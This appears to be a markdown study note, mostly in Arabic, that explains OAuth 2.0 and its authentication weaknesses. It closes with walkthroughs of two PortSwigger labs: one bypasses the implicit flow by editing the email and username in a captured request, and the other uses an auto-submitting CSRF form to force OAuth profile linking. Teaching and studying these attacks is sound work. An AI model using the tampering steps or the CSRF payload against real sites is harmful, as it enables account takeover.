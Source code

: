 # OAauth 

* <details>
     <summary>What is OAuth and how it work?</summary>

  # 🚀 شرح OAuth 2.0 ببساطة
  
  ## ما هو OAuth؟
  - **OAuth** عبارة عن **إطار عمل (Framework) للتفويض Authorization**.  
  - فكرته الأساسية:  
    التطبيق (مثلاً موقع ألعاب) ممكن يطلب صلاحيات محدودة من حسابك في خدمة تانية (زي Google أو Facebook) **من غير ما يعرف الباسورد بتاعك**.  
  - ده بيدي للمستخدم تحكم: يقدر يوافق يشارك بيانات معينة (زي قائمة أصدقائه) من غير ما يدي صلاحيات كاملة أو يسلّم حسابه بالكامل.  
  
  📌 **مثال**: تطبيق عايز يعمل "Find Friends" → يطلب منك صلاحية الدخول على الـ contacts في Gmail.  
  
  ---
  
  ## الفايدة الأكبر
  - بدل ما المستخدم يدخل الباسورد بتاعه في مواقع كتير → يدخل مرة واحدة في Google/Facebook.  
  - الموقع التاني ياخد **Access Token** يقدر يستخدمه عشان يجيب البيانات المسموح بيها فقط.  
  
  ---
  
  ## 👥 أطراف اللعبة في OAuth 2.0
  1. **Client Application**: الموقع اللي عايز يستخدم بياناتك (مثلاً موقع يشغّل خدمة).  
  2. **Resource Owner**: المستخدم نفسه (إنت).  
  3. **OAuth Service Provider**: الجهة اللي عندها بياناتك (مثلاً Google, Facebook).  
     - فيها **Authorization Server** (اللي بيأكّد الهوية ويطلع Access Token).  
     - وفيها **Resource Server** (اللي فيه الـ API والبيانات).  
  
  ---
  
  ## 🔄 خطوات العملية (Simplified Flow)
  1. **Client App** يطلب منك تصريح: "ممكن أخد صلاحية X من حسابك؟".  
  2. أنت بتروح على صفحة Google/Facebook، تعمل Login وتوافق على الطلب.  
  3. لو وافقت: السيرفر (Google) يدي التطبيق **Authorization Code** (أو Access Token على طول حسب نوع الـ Flow).  
  4. التطبيق يستخدم الكود عشان ياخد **Access Token** من الـ Authorization Server.  
  5. التطبيق يستخدم الـ Token ده عشان يكلم الـ Resource Server ويجيب البيانات اللي إنت وافقت عليها.  
  
  ---
  
  ## 📚 أنواع الـ Flows (Grant Types)
  - **Authorization Code Flow** (الأكثر شيوعًا – آمن):  
    - التطبيق ياخد **Code** مؤقت → يبدّله بـ **Access Token** من السيرفر.  
    - ميزة: التوكين مش بيعدي عبر الـ URL مباشرة (أأمن).  
  
  - **Implicit Flow** (قديم – أقل أمان):  
    - التطبيق بياخد **Access Token** مباشرة في الـ URL.  
    - مشاكل: ممكن يتسرب في الـ logs أو الـ referrer.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth مش نظام Authentication (هو أساسًا **Authorization**).  
  - لكنه بيستخدم بشكل واسع في **Social Login** (تسجيل الدخول بجوجل/فيسبوك).  
  - بيوفر **أمان + سهولة**: المستخدم ما يشاركش كلمة السر، والتطبيق ياخد صلاحيات محدودة.  
  - أهم شيء: نفهم الـ Flows (Authorization Code / Implicit) قبل ما ندخل في ثغراته.  
  
  
  
  
  ---
  ---
  
  # 🔑 OAuth كـ Authentication (تسجيل دخول)
  
  ## ما الفرق عن OAuth الأصلي؟
  - **الفكرة الأصلية لـ OAuth**: كان معمول علشان *التفويض* (Authorization) → يعني السماح لتطبيق معيّن ياخد صلاحيات محدودة من حسابك.  
  - **لكن مع الوقت**: بدأوا يستخدموه كمان في *المصادقة* (Authentication) → تسجيل الدخول بحساب خارجي زي Google أو Facebook.  
  
  📌 يعني بدل ما تسجّل في الموقع وتعمل Username/Password جديدة، تختار "Login with Google".  
  
  ---
  
  ## ⚙️ إزاي بيشتغل كـ Authentication؟
  الـ Flow الأساسي شبه الـ OAuth العادي، لكن الفرق في **إزاي الـ Client App بيستعمل البيانات**:  
  
  1. **المستخدم** يختار "تسجيل الدخول باستخدام حساب فيسبوك/جوجل".  
  2. **Client App** يطلب من خدمة OAuth (مثلاً Google) بيانات تعريفية عن المستخدم (زي الـ email).  
  3. بعد ما السيرفر يدي **Access Token** → الـ Client App يستخدمه ويطلب بيانات المستخدم من الـ **Resource Server** (عادة من endpoint زي `/userinfo`).  
  4. السيرفر يبعت البيانات (مثلاً: email = user@gmail.com).  
  5. الـ Client App يستخدم البيانات دي بدال الـ Username/Password علشان يعرّفك في السيستم.  
     - أحيانًا الـ Access Token نفسه بيتعامل كأنه "بديل للباسورد" طول ما هو صالح.  
  
  ---
  
  ## 👀 من منظور المستخدم
  - الشكل النهائي بيشبه **SSO (Single Sign-On)** اللي معمول بـ SAML.  
  - المستخدم بيضغط زر واحد → يفتح صفحة خارجية (Google) → يوافق → يرجع للموقع وهو متسجّل دخول.  
  
  ---
  
  ## 🧪 التدريب العملي (Lab Example)
  - لما تعمل Login بالـ Social Media في الـ Lab على PortSwigger، هتشوف:  
    - **Redirects** رايحة وجاية بين الموقع وبين السيرفر (Google/Facebook).  
    - **Access Token** بيطلع من السيرفر.  
    - الموقع بيطلب `/userinfo` عشان يجيب بياناتك.  
  
  > في المعمل، تقدر تجرب تعمل Login بحساب الاختبار: **wiener:peter** وتشوف كل الـ Flow ده في Burp Proxy.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth اتطور وبقى وسيلة تسجيل دخول (Authentication) مش بس تفويض.  
  - الـ Client App مش بياخد الباسورد بتاعك → بياخد Access Token → وبيروح يجيب بيانات من السيرفر (زي الـ email) → ويدخلك بيها.  
  - النتيجة: Login سهل وسريع + أمان أعلى (ما فيش مشاركة للباسورد).  
  - لكن 👀 هنا ييجي دور الثغرات اللي ممكن تحصل أثناء العملية (هنشوفها في الـ Labs).  
  
  
  

  </details>







- <details>
     <summary>How do OAuth authentication vulnerabilities arise?</summary>
     
     # ⚠️ كيف تنشأ ثغرات OAuth Authentication؟
     
     ## 💡 أسباب ظهور الثغرات
     1. **مرونة الـ OAuth Spec**  
        - البروتوكول مش صارم وبيعتمد على إعدادات اختيارية كتير.  
        - ده بيخلي فيه مساحة لسوء إعداد (Misconfiguration).  
     
     2. **قلة وجود خصائص أمان مدمجة**  
        - الأمان بيعتمد على الـ Developers يطبقوا الإجراءات الصح (زي input validation).  
        - لو حصل إهمال → يؤدي إلى ثغرات خطيرة.  
     
     3. **إرسال بيانات حساسة عبر المتصفح**  
        - بعض الـ Flows (زي Authorization Code أو Implicit) بيعدي فيها بيانات حساسة (Access Token) من خلال المتصفح.  
        - ده ممكن يستغله المهاجم لاعتراض البيانات.  
     
     ---
     
     ## 🔍 التعرف على OAuth Authentication
     - أي موقع فيه زر **"Login with Google/Facebook/GitHub"** → غالبًا بيستخدم OAuth 2.0.  
     
     ### الطريقة الأكيدة عبر Burp:
     - شغّل Burp Proxy واعمل تسجيل دخول باستخدام Social Login.  
     - أول طلب في الـ Flow بيكون رايح على:  
     
     ```
     /authorization
     ```
     
     - وبيحتوي على باراميترات مميزة لـ OAuth:  
       - `client_id` → رقم تعريف التطبيق.  
       - `redirect_uri` → الرابط اللي هيتم التحويل عليه بعد الموافقة.  
       - `response_type` → نوع الـ Grant (token / code).  
       - `scope` → البيانات المطلوبة (مثلاً: profile, email).  
       - `state` → قيمة عشوائية لمنع CSRF.  
     
     ---
     
     ## 📌 مثال Request
     ```http
     GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=token&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
     Host: oauth-authorization-server.com
     ```
     
     ---
     
     ## 📝 الخلاصة
     - **سبب الثغرات:** مرونة البروتوكول + سوء الإعداد + مرور بيانات حساسة عبر المتصفح.  
     - **إزاي نكشفه:** نحلل الـ Requests في Burp ونشوف باراميترات OAuth (`client_id`, `redirect_uri`, `response_type`, إلخ).  
     
          
</details>


























# OAuth authentication Labs 




<details>
  <summary>Lab: Authentication bypass via OAuth implicit flow</summary>

1. login with **`wiener : peter`**
2. go to ``http history`` in burp

```
POST /authenticate HTTP/2
Host: 0a4d00a404a21971801a6239001b004c.web-security-academy.net
Cookie: session=ysuWtiBhdYmkXnGRsG3NrvyppQVIhu0w
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers


{
  "email":"wiener@hotdog.com",
  "username":"wiener",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```
   
`change jsaon content to:`

```
{
  "email":"carlos@carlos-montoya.net",
  "username":"carlos",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```

> after that click **`show response in browser`**

<img width="752" height="51" alt="image" src="https://github.com/user-attachments/assets/7f8e2109-d3c0-46bb-9ca6-d77a8a8b9578" />

<img width="1390" height="536" alt="image" src="https://github.com/user-attachments/assets/9a8e8ece-b078-4b45-8b0e-a0b1413996c2" />


 
</details>






<details>
     <summary>Lab: Forced OAuth profile linking</summary>

> ## **`To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete carlos. `**
>
>  The admin user will open anything you send from the exploit server and they always have an active session on the blog website.

> You can log in to your own accounts using the following credentials:

-  Blog website account:`` wiener:peter``
-  Social media profile:`` peter.wiener:hotdog``


----

1. login with ``wiener:peter``

<img width="1273" height="537" alt="image" src="https://github.com/user-attachments/assets/ff27a0db-4598-4647-b7ba-a28c62d40fb9" />

2. click **``Attach a social profile``**

<img width="907" height="437" alt="image" src="https://github.com/user-attachments/assets/80696210-7ea5-4def-9f15-518fd442c4aa" />

3. now click on **``Attach a social profile``** again and see the request 

```http
GET /oauth-linking?code=YY52NQhSrmG4yvxAM5UPtPhrwgBimnWuPsBRXnNmo0x HTTP/2
Host: 0af400fc034fa721828c2e1b008a00fe.web-security-academy.net
Cookie: session=zhztY0fc04nIrQw0u2jRWNHd4UdZ6hl7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af400fc034fa721828c2e1b008a00fe.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

4. after that do **`CSRF poc`**


```html
<html>
<body>
  <form action="https://0af400fc034fa721828c2e1b008a00fe.web-security-academy.net/oauth-linking" method="GET">
    <input type="hidden" name="code" value="YY52NQhSrmG4yvxAM5UPtPhrwgBimnWuPsBRXnNmo0x" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
   
5. store it and send it to victem 

<img width="1248" height="399" alt="image" src="https://github.com/user-attachments/assets/9f87e559-8142-48b3-aed0-9c5bc5904b3d" />

6. after that go back to ****`my-account`**** you will find that usernme disappeared


<img width="1237" height="551" alt="image" src="https://github.com/user-attachments/assets/161ee210-ee49-43bd-b910-e2f726be7c61" />

7. now logout and login again but with socialmedia profile **`peter.wiener:hotdog`**

<img width="1460" height="464" alt="image" src="https://github.com/user-attachments/assets/fc767282-bf95-4610-b139-a0d0cada186b" />

<img width="1422" height="450" alt="image" src="https://github.com/user-attachments/assets/b65ab03a-f146-42c5-b836-36b498f27959" />


```
الثغرة حصلت لأن الموقع سمح بربط OAuth profile من غير أي تحقق إضافي.
فالمهاجم قدر يبعث CSRF للضحية، وبكده يرغم حساب الضحية إنه يرتبط بحساب OAuth بتاع المهاجم.
النتيجة: المهاجم يقدر يدخل بحساب الضحية باستخدام OAuth login → account hijacking كامل.
```

     
</details>







































 
